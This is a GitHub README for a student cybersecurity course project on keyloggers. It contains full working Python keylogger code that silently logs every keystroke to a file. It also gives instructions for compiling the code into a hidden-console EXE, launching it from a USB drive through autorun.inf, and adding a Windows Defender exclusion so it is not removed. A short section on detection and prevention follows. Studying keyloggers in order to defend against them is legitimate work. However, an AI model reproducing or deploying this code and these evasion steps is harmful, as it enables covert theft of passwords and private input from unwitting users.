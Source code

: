 # **Keylogger Project for Cybersecurity Training**  

### **By:** Bilal Sihadi & Mohamed Rouabhi  
### **Course:** CIS 260  
### **Professor:** MD Ali  

---

## 📌 **Project Overview**  
This project is about developing a **keylogger** for **educational and ethical use** in cybersecurity training. The goal is to understand how keyloggers work, how they can capture sensitive data, and how to detect and prevent them.  

⚠ **Important:** This project is **only for learning purposes**. Using keyloggers without permission is illegal. Always follow ethical hacking guidelines.  

---

## 🎯 **Project Goals**  
- ✅ Build a **software-based keylogger** using **Python**.  
- ✅ Deploy a **USB-based keylogger** that runs when plugged into a computer.  
- ✅ Study how keyloggers work on **Windows and Linux**.  
- ✅ Research and test **detection & prevention methods**.  

---

##  **Features**  
### **🔹 Software Keylogger**  
- Records **all keystrokes** (letters, numbers, special keys).  
- Saves logs **locally** with **timestamps**.  
- Works on **Windows & Linux**.  
- Can run in **stealth mode**.  

### **🔹 USB-Based Keylogger (Software Approach)**  
- Runs automatically when plugged into a Windows machine.  
- Stores captured keystrokes on the USB drive.  
- Uses **Python and AutoRun scripts**.  
- No need for special hardware.  

---

##  **How to Install & Run**  

### **1️⃣ Software Keylogger (Python)**  
#### **Requirements:**  
- Python 3.13  
- Required library: `pynput`  

![xxx](https://github.com/user-attachments/assets/c1e00f6a-a929-4c17-bd29-517bd8da9bad)

#### **Installation:**  
```sh
pip install pynput
```

#### **Keylogger Code (Python)**  
Copy and save the following code as **keylogger.py**:

```python
from pynput import keyboard   # Import the keyboard listener from the pynput library
from datetime import datetime   # Used to timestamp each keypress
import time    # Used to keep the script running
def keyPressed(key):    # Handles key press events, logs the key pressed along with the timestamp.
     with open("keyfile.txt", 'a') as logKey:  # Open the log file in append mode so previous keystrokes are not overwritten
         try:
             # Log regular character (letters, numbers) 
             logKey.write(f"{datetime.now()} - {key.char}\n")
         except AttributeError:
             # Log special keys (like Enter, Shift, etc.) with timestamp in brackets
             logKey.write(f"{datetime.now()} - [{key.name}]\n")
 
if __name__ == "__main__":
     # Start listening for key presses
     listener = keyboard.Listener(on_press=keyPressed)
     listener.start()  # Start listening
     # Keep the script running quietly in the background
     while True:
         time.sleep(1) # Sleep to prevent high CPU usage
```

#### **Run the Keylogger:**  
```sh
python keylogger.py
```
- The script will record all keystrokes and store them in **keyfile.txt**.  

---

### **2️⃣ USB Keylogger Setup (Windows - Software-Based)**  
This method turns a normal USB drive into a **portable keylogger** that starts when plugged into a Windows computer.
![vvvvvv](https://github.com/user-attachments/assets/0fa7454d-81fb-4028-8777-f23a8bf06991)

#### **Step 1: Convert the Keylogger to an Executable**  
To run without needing Python installed, convert it into an **EXE file**:  
```sh
pip install pyinstaller
pyinstaller --onefile --noconsole keylogger.py
```
![zzz](https://github.com/user-attachments/assets/1281becb-9dc9-412a-9440-69025ffa8628)

- This will create an EXE file in the `dist/` folder.  
- Move `dist/keylogger.exe` to the USB drive.  

---

#### **Step 2: Create an Autorun Script**  
1. Open Notepad and paste the following:  
   ```ini
   [Autorun]
   open=keylogger.exe
   action=Open folder to view files
   ```
2. Save this as **autorun.inf** on the USB drive.  

---

#### **Step 3: Plug the USB Into a Windows Computer**  
- If **AutoRun** is enabled, `keylogger.exe` will start running in the background.  
- If not, manually open the USB and **run keylogger.exe**.
  
  ![vv](https://github.com/user-attachments/assets/88f3a628-336b-4a40-a047-f45cd780964a)
  
---

## 📄 Example Output

The keylogger stores keystrokes with timestamps in a file named `keyfile.txt`.  
Below is a sample snippet of the output:

![ccc](https://github.com/user-attachments/assets/33b01b86-f41e-443c-ac4b-6cea9582a52c)


---
## 🔐 Windows Defender Exclusion

To prevent automatic deletion during testing:

1. Open **Windows Security**
2. Go to **Virus & threat protection** → **Manage settings**
3. Scroll down to the **Exclusions** section
4. Click **Add or remove exclusions**
5. Add:
   - The `.exe` file (e.g., `keylogger.exe`)
     
⚠️ This step is important because antivirus software (especially Windows Defender) will likely detect and remove your keylogger.

![nnnn](https://github.com/user-attachments/assets/4c7d0f56-911c-4ecd-bd2d-106f8fa01e3c)

---

## 🛡️ How to Detect & Prevent Keyloggers

Keyloggers can be hidden in software or hardware. Below are steps to help detect and prevent them:

- **Disable AutoRun & AutoPlay**  
  Prevents automatic execution from USB or external media.

- **Use Antivirus & Endpoint Security**  
  Scan for known keylogger signatures and behavior.

- **Monitor Running Processes**  
  Identify unusual or suspicious tasks using Task Manager or `ps`.
  
![qqq](https://github.com/user-attachments/assets/c71717f9-e089-4674-8fdd-48c79578d6c3)

- **Encrypt Sensitive Keystrokes**  
  Use tools or secure input fields that protect against keylogging.

- **Check for USB-Based Devices**  
  Inspect physical USB connections. Use device control policies to block unauthorized peripherals (e.g., USBGuard, Windows Group Policy).
  
---

##  **Ethical Considerations**  
- This project is for **learning and research only**.  
- Testing is done in a **controlled environment** (no real user data).  
- Always get **permission** before using keyloggers.  

---

##  **Expected Outcomes**  
- A **fully working keylogger** for **ethical training**.  
- A report on **how to detect and prevent keyloggers**.  
- A better understanding of **cybersecurity threats**.  

---

##  **Contributors**  
  **Bilal Sihadi**  
  **Mohamed Rouabhi**  

---

##  **License**  
This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

